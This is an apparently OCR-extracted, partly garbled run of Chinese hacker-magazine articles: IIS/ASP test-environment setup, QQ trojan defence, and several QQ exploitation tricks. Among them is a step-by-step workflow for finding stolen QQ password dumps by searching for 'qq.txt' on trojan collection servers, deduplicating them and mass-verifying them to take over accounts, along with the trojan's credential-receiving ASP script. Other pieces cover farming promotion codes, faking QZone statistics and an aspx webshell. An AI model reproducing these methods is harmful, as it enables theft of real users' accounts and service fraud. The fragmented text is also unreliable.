



接下来以著名的 ASP 论坛程序 Dvbbs 8.2 为例搭建论坛环境。先在“默认 Web 站点”右键，选择“新建→虚拟目录”（如图12），网站描述填写 `dvbbs`，目录指向 `c:\web\dvbbs`，并在权限中勾选“读取”“运行脚本”“写入”（如图13）。

Dvbbs 8.2 需要 Access 数据库支持，先安装 Access（Office 2003 SP2 简体中文完整版中可选择“自定义安装”，仅安装 Access）。安装完成后继续部署论坛程序。


将下载的论坛文件复制到 `c:\web\dvbbs`，访问 `http://localhost/dvbbs/index.asp` 可看到首页。使用默认账号 `admin/admin888` 登录后若出现权限错误，可在目录属性的“安全”中添加相应权限后再试。

## 菜鸟学堂


图16、图17。然后右键点击默认网站下的 dvbbs 虚拟目录→属性，在“虚拟目录”选项中把“脚本资源访问”勾选上（因为要运行脚本，默认情况下这个选项是没有勾选的），如图18。再来登录一下，前台已经能登录了，如图19。发个帖子试试，发表成功了，呵呵，如图20。


立即查找，在找到的用户中把 IIS 来宾账户 `IUSR_TXCBG`（IIS 来宾账户的名字是 `IUSR_计算机名`，因为我的计算机名是 TXCBG，所以找到的用户是 `IUSR_TXCBG`，如果你的计算机名是 test，那么你找到的 IIS 来宾账户就是 `IUSR_test`）添加上，并给予除了完全控制以外的所有权限，如……

小小地庆祝一下吧，我们成功搭建了一个 Dvbbs8.2.0 的论坛环境。再进入后台看看，直接点“管理”来到后台登录页面 `http://localhost/dvbbs/admin_login.asp`，却是“HTTP 500 内部服务器错误”，如图21（又出问题了，看来配置一个测试环境虽然不需要什么高深的技术，但是要配置成功，还真不容易啊）。继续到 baidu 搜索一下，说是没有“启用父路径”。好了，右键点击 dvbbs 虚拟目录→属性→虚拟目录→配置→选项，勾选上“启用父路径”，如图22。再来登录一下，问题果然解决了，成功进入了后台，如图23。


至此，dvbbs 论坛就算是搭建完成了，下面再来安装一下动易内容管理系统 2006 Sp6 Build 1120 普及版。

> txcbg 看到台下有几个小菜鸡打瞌睡，赶紧敲了敲讲桌，说道：“大家精神一下，实在犯困的可以自己站一下（当年我当学生的时候我的老师就是这么说我们的 =。=），谁睡觉被逮住罚交10只大肥鸡。”被我这么一说，小菜们又认真听课了。

下面我来讲安装一下动易内容管理系统 2006 Sp6 Build 1120 普及版。在默认的网站下新建一个虚拟目录，名字为 dongyi，网站内容目录指向 `c:\web\dongyi`，权限除了“写入”和“浏览”外都勾选上……先运行 `PE2006_DLL.exe` 来安装动易的组件，如图24，安装完成后再运行管理系统的安装文件 `PowerEasy2006.exe`，暂时先把它安装到 `C:\Documents and Settings\Administrator\桌面\dongyi\` 目录下，如图25。

安装完成后来到安装目录的 Database 目录下。为了防止别人下载默认数据库，我们可将数据库改一下名，比如把数据库改名为 `hackerxfiles#5y#.mdb`。然后再来到安装目录的根目录下，使用记事本打开 `conn.asp`，把数据库路径修改为“`db = \dongyi\database\hackerxfiles#5y#.mdb`”，其中黑体的 dongyi 是相对于网站根目录的动易安装目录……保存后把安装目录下的所有文件和文件夹复制到 `c:\web\dongyi` 目录下，然后访问 `http://localhost/dongyi/Install.asp` 就来到了安装页面，如图26。


要使用管理员账户登录后才能继续安装。怎么不显示验证码啊，怎么刷新也不管用，没有验证码怎么登录啊。我又到 baidu 上搜索了一下，还是没有“启用父路径”的问题。仍然像上面那样右键点击 dongyi 虚拟目录→属性→虚拟目录→配置→选项，勾选上“启用父路径”，再刷新一下，验证码出来了，如图27。使用用户名 admin 和密码 admin888 登录成功，来到了“动易网站管理系统安装向导”，如图28。

## 菜鸟学堂


在这里可以进行一些设置，比如为了不让别人轻易地找到后台路径，可以把“后台管理目录”由默认的 admin 改为别的目录。我把“网站名称”和“网站标题”都改为了“菜鸟学堂课堂演示”，点击“下一步”，马上就出来了如图29所示的页面。为了安全，我们点“删除此安装文件”按钮，然后在提示删除 Install.asp 成功后点关闭页面，就完成了动易 2006 的安装。这时访问 `http://localhost/dongyi/index.asp` 就可以看到动易 2006 的首页了，如图30。


因为我们还没有添加任何内容，所以整个页面显得很空。没问题，我们来添加一点内容。直接点页面右下角的“管理员登录”链接，在出来的登录页面中输入管理员用户名和密码后就进入了后台，如图31。


点“网站栏目管理”下的“文章栏目管理”快捷菜单，然后点“添加文章栏目”新建一个文章栏目，栏目名称为“菜鸟学堂演示”，目录名为 cainiao，如图32。


栏目添加成功后再来到“文章管理中心”添加一篇文章，如图33。添加好后来到首页看一下，已经有了我们刚写的文章了，如图34、图35。为了安全，我们一定要把管理员的默认密码改掉。


使用 IIS 搭建 ASP 环境就讲到这儿，下面我再来简单地讲一下使用 NetBox 搭建简单 ASP 环境的方法。有时我们只是要解析几个简单的 ASP 网页，这时候就可以用 NetBox 来快速搭建 ASP 环境了。NetBox 是一个小巧而强大的 ASP 服务器软件。

你在一分钟之内就可以搭建好 ASP 环境。目前 NetBox 的最新版本为 2.8.4128，可以从 `http://down.chinaz.com/soft/13211.htm` 下载到。下载安装程序后，点击“Next”，最后点“Finish”就可以完成安装了，安装完成后会在桌面上生成一个如图36所示的图标。


要运行 ASP 文件还需要一个文件。我们新建一个文本文档，在里面输入如下内容：

```vb
Dim httpd
Set Shell = Service.RunService, "N8Web", "NetBox Web Server", "NetBox Http Server Sample"
Sub OnServiceStart()
  Set httpd = CreateObject("NetBox.HttpServer")
  If httpd.Create("", 80) = 0 Then
    Set host = httpd.AddHost("", "\www")
    host.EnableScript := true
    host.AddDefault "index.htm"
    host.AddDefault "index.asp"
    host.AddDefault "default.htm"
    host.AddDefault "default.asp"
    httpd.Start
  else
    Shell.Quit 0
  end if
End Sub

Sub OnServiceStop()
  httpd.Close
End Sub

Sub OnServicePause()
  httpd.Stop
End Sub

Sub OnServiceResume()
  httpd.Start
End Sub
```


其中 `www` 是存放你的 ASP 文件的相对路径。保存后把它重命名为 `main.box`。假如我们要运行的 ASP 文件放到了桌面上的 `www` 文件夹下（“www”对应着上面代码中的“www”），把刚才生成的文件放到桌面上，即放到存放你要发布的 ASP 程序的 `www` 文件夹的同级目录下，然后直接双击 `main.box`，看到任务栏出现了如图37所示的图标就表示 ASP 程序成功发布了；使用浏览器打开 `http://127.0.0.1/dama.asp` 成功运行，表明 ASP 环境搭建完成，如图38。


网上也有其它的 ASP 环境搭建工具，不过我觉得 NetBox 是最好用的，有些其它的小型 ASP 服务软件的内核用的就是 NetBox。如果不算下载 NetBox 安装程序的时间，使用 NetBox 在一分钟内就可以搭建起 ASP 环境来。如果你要测试小型 ASP 程序，又没有安装 IIS 时，NetBox 就是一个非常不错的选择。

讲到这儿，txcbg 松了一口气说道：“ASP 环境的搭建就介绍完了，大家稍微休息一会儿，下次我们继续讲 ASP.NET 环境的搭建。”

（文中涉及到的 Dvbbs8.2.0 安装程序、NetBox.exe、动易内容管理系统2006SP6 已经收录在光盘中）


## 菜鸟也来学配置服务篇之搭建 ASP.NET 环境篇

txcbg


前几天刚度过了自己的节日，但心里却怎么也高兴不起来，是什么原因呢？因为我过的节日，就是 11 月 11 日——光棍节呀！想想论坛里的好多人都有女朋友了，心里很是羡慕啊。再给大家偷偷地爆个料，前几天有小菜在黑客X档案的官方论坛发帖询问阿布哥哥和戴MM的恋爱故事已经发展到什么程度了，结果阿布承认说戴MM已经成了家里的财务主管，掌握了他的钱包——

随着菜鸟学堂上课铃声的响起，穿着棉袄棉裤棉鞋的 txcbg 走上了讲台……“在上节课中我们介绍了 ASP 环境的搭建，本节课我们就继续介绍 ASP.NET 环境的搭建，大家平时在网上见到的使用 ASP.NET 搭建的网站可能比较少，其实有一个很大型的网站就是使用 ASP.NET 搭建的，那就是微软的官方网站。”

“ASP.NET 既有 ASP 的易用性，又增强了安全性并且还增加了许多功能，再加上微软的大力推广。相信会有越来越多的网站采用 ASP.NET 的，那么谁能说说什么是 ASP.NET 呢？”随后课堂互动中给出了定义：ASP.NET 是下一代 ASP，是微软 .NET 架构的重要组成部分，不是 ASP 的简单升级，而是全新一代动态网页实现系统。

课堂插曲后，老师继续讲解：在 Windows Server 2003 的服务器中安装 ASP.NET，既可通过“配置您的服务器”，也可通过“添加或删除程序”来安装 ASP.NET。

- 1. 选择“开始”→“设置”中的“控制面板”，然后点击“添加或删除程序”。
- 2. 在“添加或删除程序”对话框中，点击“添加/删除 Windows 组件”。
- 3. 选择“组件”中的“应用程序服务器”复选框，点击右下角“详细信息”，在窗口中把“ASP.NET”和“Internet 信息服务（IIS）”两项都勾选上，点击“确定”后再点“下一步”即可完成安装。


来到 Web 服务扩展看看，居然没有 ASP.NET 项，奇怪了，搜索一下，找到了微软官方给出的解决方法：


需要注意的是，因为 Framework 的版本不同，所以具体的名称和路径可能会有些不同，比如版本是 `v1.0.3705`，其路径就是 `Windows\Microsoft.NET\Framework\v1.0.3705\aspnet_isapi.dll`。


为了验证 ASP.NET 环境是否搭建成功，我们在默认网站下新建一个名为 aspnet 的虚拟目录，虚拟目录指向 `C:\web\aspnet`，然后给予 `IUSR_TXCBG` 和 `NETWORK SERVICE` 组除“完全控制”以外的所有权限，如图4。

把 aspx 一句话木马放到 `C:\web\aspnet` 目录下，并命名为 `1.aspx`，打开 IE 浏览器访问后提示无法找到该页，如图5。检查后发现没有 `.aspx` 扩展名解析，于是添加 `.aspx` 扩展，执行文件指向 `C:\WINDOWS\Microsoft.NET\Framework\v2.0.50727\aspnet_isapi.dll`，如图6。


再次访问后仍出错，提示 `NETWORK SERVICE` 用户对 `C:\WINDOWS\Microsoft.NET\Framework\v2.0.50727\Temporary ASP.NET Files\` 没有写权限，如图7。给予其写权限后错误消失，客户端连接与功能恢复正常。


这样 ASP.NET 环境就初步搭建完成。接着安装 ASP.NET 环境下的论坛，这里选择的是 Discuz! NT 2.5（更新 080729），安装成功后即可测试漏洞。Discuz!NT 2.5 需要 SQL 数据库支持，因此还需要继续进行数据库相关配置。


## 菜鸟学堂

安装 SQL Server 2000 数据库，我是从网上下载的“SQL Server 2000 4合1 SP4 简体中文版 + 7.0 英文版”，双击运行安装程序，然后一路点击“下一步”。在“身份验证模式”安装界面中，为了安全，我们需要设置一下 sa 的登录密码，如图10。数据库安装完成后，我们在默认网站下新建一个网站，名字为 dntbbs，主目录为 C:\web\dntbbs，然后像上面所讲的那样添加对 .aspx 文件的 ISAPI 扩展，如图11。


下面来进行关键目录的权限设置：我们新建两个帐号，打开“控制面板”中的“管理工具”，然后找到“计算机管理”，双击用户后展开用户列表，在用户列表内点鼠标右键选择新用户，分别建立两个用户 discuz_iusr 和 discuz_iwam，相关选项如图12、图13所示。

在用户名栏输入你要使用的用户名，至于“全名”以及“描述”，只是用来说明用的，可以不填写。建议设置的用户名使用“_iusr”和“_iwam”来做后缀，以区别 IIS 来宾帐号和 IIS 的进程启动帐号。一般来说，iusr 为 IIS 来宾帐号，iwam 为 IIS 进程启动帐号。当然我们也可以按照自己的习惯来区分这两个帐号，方便以后的使用和管理。帐号的密码我建议使用一个12位以上的数字、字母和符号的混合密码，或者是一个 MD5 两次后的密码，这样可以有效地防止密码被人暴力破解。


帐号建立完成后，我们再更改一下帐号的所属组。首先更改 discuz_iusr 的组为 Guests，接着更改 discuz_iwam 的组为 IIS_WPG，如图14。这样我们就有了访问网站时用户连接服务器的帐号 discuz_iusr，和服务器用来启动程序池运行 .NET 程序的帐号 discuz_iwam。

在“用户名”中输入我们刚才新添加的来宾组帐号 discuz_iusr，然后在应用程序池中新建一个应用程序池并命名为 discuz，再在新建立的应用程序池上点鼠标右键选择属性，找到“标识”选项，选中“配置”，在其下的“用户名”中输入刚才设置的 IIS 进程启动帐号 discuz_iwam，如图16。

下面来更改 IIS 的配置：选择“控制面板”→“管理工具”→“Internet 信息服务（IIS）管理器”，打开你的站点属性，找到“目录安全性”选项，点击“身份验证和访问控制”中的“编辑”，出现了如图15所示的界面。

IIS 站点要使用此程序池来运行。进行以上这些设置后，还要更改 Windows 目录下 temp 文件夹的权限，给 temp 文件夹加上一个 IIS_WPG 的帐号，并给予如图17所示的权限；最后还要给网站目录 C:\web\dntbbs 添加 discuz_iusr 和 discuz_iwam 这两个帐号如图18所示的权限，并给予 IIS_WPG 除了“完全控制”以外的所有权限。


权限设置完毕后，解压 Discuz!NT 2.5 的压缩包，把 upload_files 目录下的所有文件复制到 C:\web\dntbbs 目录下，然后访问 http://localhost/install/index.aspx，就成功看到了安装界面，安装环境检测通过，如图19。


点击“下一步”后就出现了如图20所示的页面，输入论坛管理员的用户名和密码，数据库类型选择 SqlServer，然后在“数据库用户名称”和“数据库用户口令”栏中输入 sa 和其密码，在企业管理器中新建一个数据库 dnt2，然后点“开始安装”，看到如图21所示的页面后就说明安装成功了。


打开论坛，发个帖子试试，也成功了，如图22。至此，ASP.NET 环境就搭建完成了。

> txcbg 最后总结道：……（介绍了 ASP 和 ASP.NET 测试环境搭建过程、遇到问题及解决方式，并说明后续将介绍 PHP 测试环境搭建）。

### 看小菜映像劫持的利用

近日，我正在与病毒进行着斗争，突发奇想，想到了注册表中映像劫持的利用……本文介绍了通过 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options` 项进行映像劫持，借此拦截恶意程序执行的思路与实操。


如果我们已经知道了病毒的进程名，按上述方法可将其映像重定向到不存在或受控程序，从而阻断其运行；该方法也可用于反复清理后防止病毒再次启动。更多利用可自行挖掘。

## 无限QQ钻任你刷

### CJ也疯狂


今天在 QQ 上听好友添添说招商银行推出了活动，可以答题兑换 QQ 钻和会员。我一听激动不已，赶紧问他要来了活动的网址 http://live.cmbchina.com/webpages/netshield/index.html，打开一看，原来是个 FLASH 探宝游戏，完成游戏后可以获得 QQ 增值服务的兑换码，获得兑换码后就可以到 http://free.qq.com/bar/index.shtml 进行兑换了！不过具体奖品就要看你运气了，我抽到了红、黄、绿3个钻，可惜没有抽到会员；不过这也不错了，毕竟是免费的嘛！


可能会有小菜问我这些答案是从哪里来的？哈哈，其实挺简单的，如果我们选择了错误的答案，在 Flash 下面就会有提示说“选择错误，请重新选择”，如图2。我可是经过不懈的努力才给叉子们试到了全部正确的答案哟。

回答完所有的问题后就来到了成绩提交页面，输入姓名和 E-mail 地址后点击“提交成绩”，如图3，然后我们就会获得兑奖码了，如图4。打开兑奖页面，输入我们的兑奖码，如图5，点击“马上兑奖”，就会获得随机的奖品了，如图6。特别提醒一下大家，奖品是可以多选的哟！

小菜们是不是也想得到免费的钻石或会员呢？来看我的操作吧。打开网页后，一路点击“开始探秘”就来到了答题画面，也即图1。画面上的壁纸、光盘、电脑显示器等都是可以点击的，点击一下就会出现相应的问题，选择答案来完成答题。下边是这些问题的正确答案：


- 壁纸：D. 动态验证码
- 光盘：B. 网盾安全软件
- 电脑显示器：A. 招商银行网上个人银行专业版
- 键盘：B. 密码安全控件
- 手机：B. 账户变动即时通
- 钱包：D. 账簿控制
- 词典：C. 五彩优KEY
- 日历：A. 保护期


下面我们开始刷兑奖码。有无限个兑奖码就能换无限个钻石，方法很简单：每次使用浏览器打开招商银行答题页面得到兑奖码后，全部关闭浏览器，然后再打开重新做题就可以了。想多搞些兑奖码送人的叉子们就赶快行动起来吧！

## 三剑客助我淘尽靓Q

#### 无敌小龙


使用过啊啦啦QQ大盗的朋友都知道它有网页版收信的功能，如图1。软件作者编写这样的收信方式，一是可以避免邮件被 Hook 软件的发信阻拦，另一方面也可以部分防止第三方用户破解出种马客的邮箱密码。但是这样的收信方式也给我们带来了一个契机。通过查看收信文件 qq.asp 代码，我们知道了这个 ASP 文件是把接收过来的 QQ 帐户和密码保存在服务器上同目录下的 QQ.txt 文件中，如图2。于是就有了下边的故事。

```asp
<%
num=request("num")
pass=request("pass")
qip=request("qip")
set fs=server.CreateObject("Scripting.FileSystemObject")
set file=fs.OpenTextFile(server.MapPath("..."),8,True)
if qip <> "" then
  file.writeline num+"----"+pass+" " +qip
else
  file.writeline num+"----"+pass
end if
file.close
set file=nothing
set fs=nothing
response.write "Send OK!"
%>
```

### 第一位创客：搜索引擎

打开搜索引擎，可以选择使用 baidu 或 google，输入“allinurl: qq.txt”或“inurl: qq.txt”，两者都表示在 URL 中要包含 qq.txt 这个文本文档，区别在于前者要求在 URL 中必须含有 qq.txt 文本文件。通过这样的搜索查询，我们可以得到一些存放 QQ 密码的文本文档，如图3。


### 第二位创客：QQ重复信息整理工具

从搜索到的网页中任意打开一个，可以看到有很多 QQ 账号和密码列表在里面，如图4。


但这个毕竟是别人的 QQ 箱子（这个是术语，就是表示收取 QQ 密码的邮箱），有些 QQ 号别人可能已经把密码修改了。那么如何验证这么多的 QQ 密码是否正确呢？总不能一个个地去尝试吧。同时里面还有很多重复的信息，如果一个个地清理，那样也不是要累死人。

我给大家推荐一款小工具——QQ 重复信息整理工具。把刚才网页中的信息全部复制到记事本中，保存为一个文本文件，单击 QQ 重复信息整理工具中的“载入TXT”按钮，把刚才保存的 QQ 账户和密码列表文件载入进来，最后单击“整理重复信息”按钮，就可以把重复信息去掉了，如图5。把整理完毕的 QQ 密码列表保存起来，单击“保存”按钮将文件保存为 QQ_pass.txt。

### 第三位剑客：GQQ自动晒号器

现在现出我们的终极武器 GQQ 自动晒号器，它的作用就是模拟 QQ 登录器，并在登录 QQ 服务器的同时显示出正确的密码。选择“晒号”，点击“导入”按钮，把我们刚才保存的 qq_pass.txt 文件导入进来，然后单击“开始”按钮，程序就会自动测试密码是否正确。很快我们就可以看到哪些 QQ 的密码是正确的了，如图6，快去挑选你想要的 QQ 号吧！（本文所涉及到的 QQ 重复信息整理工具、GQQ 自动晒号器已收录到光盘中）

## 详论QQ安全登录之策略——


孙子兵法云“知己知彼，百战不殆”，对于 QQ 木马的防治工作，也要做到在了解 QQ 木马及盗号原理的基础上，有针对性地进行治理、打击、防治！如今的 QQ 盗号木马可以分为两种类型：一种是键盘记录型，在你打开 QQ 登录窗口时进行键盘记录；另外一种就是内存截取型木马，这种木马更加隐蔽和厉害，它可以绕开 Nprotect 的保护，在内存中寻找你的 QQ 密码。

### 一、键盘记录型QQ木马

千防万防，不如在问题发生前就遏制住它。QQ 的安全，其实很大程度上就是 QQ 在登录时一刹那间的安全。只要密码不输入，盗号木马就记录不到你的帐号和密码信息，此时它们是安全的。我给大家介绍一款工具——QQ 防盗登录器，它可以实现安全登录 QQ，并且对键盘记录型木马有很好的防御作用。输入你的 QQ 号码和密码，选择好 QQ.EXE 的安装路径，点击“创建LNK”按钮，如图1，就会创建一个 QQ 登录的快捷方式。


在刚刚创建的快捷方式上点鼠标右键，选择属性，可以看到它其实就是把 QQ 命令行登录的方式做成了一个快捷方式。如图2，这样在登录时只要双击这个快捷方式就可以直接登录 QQ 了。因为使用的是命令行登录，也就省略了在 QQ 登录窗口中输入密码的过程，可以有效防止你的密码在登录时被记录，所以对键盘记录型木马是致命的打击。


对于键盘记录型木马，还有一些需要补充的知识：腾讯公司针对键盘记录型木马推出了 Nprotect 保护锁，只要这个锁不破，那么其它程序是无法获得密码输入框中的密码的。检测这个保护锁最有效的方法就是在密码输入框上点鼠标右键，如果无法弹出快捷菜单，那么就基本可以确定 Nprotect 保护锁是有效的；否则密码锁就已经被破坏了，此时就不要登录 QQ 了。

### 二、内存截取型QQ木马

使用上面的方法可以有效防范 QQ 登录时的键盘记录型木马，但是对于内存截取型的 QQ 盗号木马就无能为力了。虽然对于内存截取型盗号木马的防御暂时没有特别有效的工具，不过我们可以从侧面进行防御。我推荐两款工具：天网防火墙和小鬼当差。这两款工具虽然不能防止你的密码被记录，但却可以让盗号木马无法把密码发送到对方的邮箱中。说不上是防御，但绝对是个不错的补救措施！QQ 盗号木马基本上有两种最常见的收信方式：一种是网站收信，一种是邮箱收信。下面就针对这两种方式进行逐个防御！

##### 1、网站收信

网站收信使用到了一个 QQ.ASP 文件。打开啊啦 QQ 大盗（QQ 木马的典型代表）中的 QQ.ASP 文件，代码如下：

```asp
<%
num=request("num")
pass=request("pass")
qbip=request("qbip")
set fs=server.CreateObject("Scripting.FileSystemObject")
set file=fs.OpenTextFile(server.MapPath("QQ.txt"),8,true)
if qbip<>"" then
  file.writeline num+"------"+pass+" "+qbip
else
  file.writeline num+"------"+pass
end if
file.close
set file=nothing
set fs=nothing
response.write "Send OK!"
%>
```

可以看到这个 ASP 文件接收了三个数据参数：一个帐号，一个密码，一个 IP 地址。在接收到这三个参数后，就把它们保存到同目录下的 QQ.TXT 文件中。比如，我们在浏览器中输入 `http://127.0.0.1/qq.asp?num=5450913&pass=123456`，然后来到 `http://127.0.0.1/qq.txt`，就可以看到记录下来的帐号和密码信息，如图3。我们打开 VB 来模拟编写一个网站收信程序，程序界面如图4所示。


加入方法为找到工程菜单，选择其中的“控件”子菜单，勾选上述两个控件，如图5。来到代码窗口，输入如下代码：

```vb
Private Sub Command1_Click()
    WebBrowser1.Navigate "http://127.0.0.1/qq.asp?num=5450913&pass=222222"
End Sub

Private Sub Command2_Click()
    inet1.Execute "http://127.0.0.1/qq.asp?num=5450913&pass=222222", "get"
End Sub
```


其中一个表示使用浏览器控件浏览“http://127.0.0.1/qq.asp?num=5450913&pass=222222”这个地址，另一个表示使用 get 方式提交“num=5450913&pass=222222”数据。生成工程，名称为网站收信，同时打开天网防火墙。运行刚才生成的网站收信程序，单击浏览，可以看到发信过程马上被拦截了，如图6。我们单击禁止按钮，可以看到如图7所示的界面，浏览器无法正常访问网络了，这样也就避免了盗号木马的网站发信。单击网站发信测试程序中的 inet 方法，结果同样是被防火墙拦截了，这样对方的邮箱就无法收到帐号和密码信息，也就从侧面保证了我们 QQ 帐户和密码的安全。


##### 2、邮箱收信

针对邮箱收信的 QQ 木马，我推荐使用灰鸽子工作室编写的小鬼当差。打开小鬼当差，在“消息”界面下勾选启用邮件发送防火墙，这样就可以监听邮件发送程序了，如图8。


我们使用一款邮件发送程序来进行测试，填写好信息后，单击“发送邮件”按钮，如图9，可以看到小鬼当差马上捕获了邮件的发送行为，如图10。来到小鬼当差的“过滤规则”选项，可以看到只要是这里没有被允许的程序，在访问网络时都会被捕获，所以我们只要仅给常见的程序放行，那么就可以有效防止盗号木马在盗取密码之后的发信行为了，如图11。


#### 三、安全还在继续

以上论述了一些有效的 QQ 安全登...登录方式和保护措施，但是安全也是相对的，如果能配合一些常用的杀毒软件就更加完善了。我推荐下载使用360保险箱，安装完毕后，每次登录QQ时它都会首先进行系统漏洞扫描、盗号木马扫描等过程，在确定没有盗号木马后才会弹出QQ登录窗口，也就是首先确定QQ登录环境是干净的，才会让你登录QQ。如图12。以上介绍的方法配合使用的话，一定可以让你的QQ安全加倍！

（本文所涉及到的QQ防盗登录器、邮件发送工具、网站收信程序、天网防火墙、小兔当差、360保险箱等，已收录到光盘中）

## 无敌代码打造顽固QQ号——添添 yiwang CJ 也疯狂


最近学校基本没课了，整天在寝室里除了看书就是上网，很是无聊。这天在浏览网页时看到了一个卖QQ的网站，上面的号码都是挺牛的5位和6位号，我加了客服的QQ，聊了一会儿觉得价格还可以，于是就买了个5位的QQ号，没想到付款后竟然被骗了。100元大洋就这么没有了，我愤怒到了极点，立刻找来了好友yiwang和CJ。加对方好友后一通弹视频发语音发木马，然后我们三个人的QQ就被她给拉到黑名单中了。我突然冒出了一个想法，QQ如何才能拒绝被别人拉黑呢？我到网上一查，发现这个问题已经有人研究过了，并且也有了初步的思路，就是利用QQ昵称的编码问题！

通过研究发现，QQ不同的版本昵称所用的编码也不同，这就造成了漏洞的出现。


我们打开编码转换器，如图1，分别按住 ALT+ 右面的9位数字，比如就是 ALT+38078，全部转换后得到如图2所示的字符，其编码是 101:129 000119 000124 000119 000052。当然也不一定只有这些代码可以使用，其它的也可以使用。选择Unicode格式的字符，把如图3所示的这些代码放进去转换，得到了一些编码，这是由于 Unicode 编码在非运行环境下造成的。那么我们如何让它实现QQ不能拉黑呢？……不同QQ版本在拉黑时所出现的错误情况也不一样，比如07版的QQ在拉黑时就会出现如图7、图8所示的情况。……这样一个无痕的QQ昵称就生成了。

### 让花匠学徒也能领养五级花

大家都有自己的QQ空间吧，也都希望能把自己的QQ空间打扮得漂漂亮亮……对于我们这些囊中羞涩的小菜来说可是没有钱花在QQ的打扮上。下面我教大家一个方法，让“花匠学徒”也可以领养五级花……


我们进入QQ空间来到领养植物的页面，将 javascript 代码粘贴到 IE 的地址栏中并回车提交。

```javascript
javascript:visitCountCallBack({"visitcount":999,"dayvisit":999,"spacemark":999,"sun":9999,"love":9999,"rain":9999,"nutri":9999,"level":5,"gardener":5});
```


不要疑惑了，这不是以前提到过的代码吗？由于QQ空间做了限制，这段代码已经无法领养人参果了，会出现“无效访问链接”的提示框，同时植物也会被还原，如图1。但利用这个暂时身份仍可成功领养五级植物，如图2、图3。


## 劲劲手，瞬间刷出QQ空间上亿的人气

MISHELL[泼墨渡·斑驳客栈]

记得以前在X上介绍过让QQ空间人气飙N翻的代码，可是本地处偏僻，等X到手的时候那些代码已经不能用了，本来以为腾讯不会再出类似的漏洞了，可没想到还真让我给碰上了。这次刷人气代码的利用与上次相比要麻烦了许多，下面就来看我如何瞬间打造出上亿的人气。

首先进入到QQ空间，点击空间右上角的“自定义”按钮，选择“新建模板”－“图文模板”（图1），在“添加标题”和“标题”处输入“@VCP@”，然后在“描述”框中输入以下代码（图2）：


```
@VCP(100)
@VCM(100)
@DVP(100)
@DVM(100)
```

以下是上述代码的简单介绍：

```
@VCP(100) 访问量次加100
@VCM(100) 访问量来100
@DVP(100) 日访问量加100
@DVM(100) 日访问量来100
```

其中的数值越大，人气就会越多，保存后是不是发现人气变多了，但这还没有完，刷新以后人气数值还会变回到以前的人气数值。接下来我们进行关键的操作，进入空间后点击“自定义”按钮，接着再点击“模板管理”，此时大家先暂时什么都不要做，重新打开你的空间（注意：第一个打开的空间不要关闭掉），在打开的第二个空间的IE工具栏中选择“工具”－“Internet选项”－“安全”－“自定义级别”，在“自定义级别”中找到“活动脚本”，选择“禁用”，然后确定（图3）。重新回到第一次打开的空间，在“模板管理”中找到你刚才新建的“图文模板”，让它显示在空间主页，这时大家不要保存，因为脚本活动被禁用了根本就保存不了，此时再回到第二个空间网页，在IE工具栏中选择“工具”－“Internet选项”－“安全”－“默认级别”后确定，返回到第一个空间网页进行保存。刷新一下看看你的空间，人气是不是没有掉（图4）。注意：人气代码必须是大写的，小写的不可以使用。


## QQ盗号从此我不怕

无敌小龙

#### 一、软件登录法

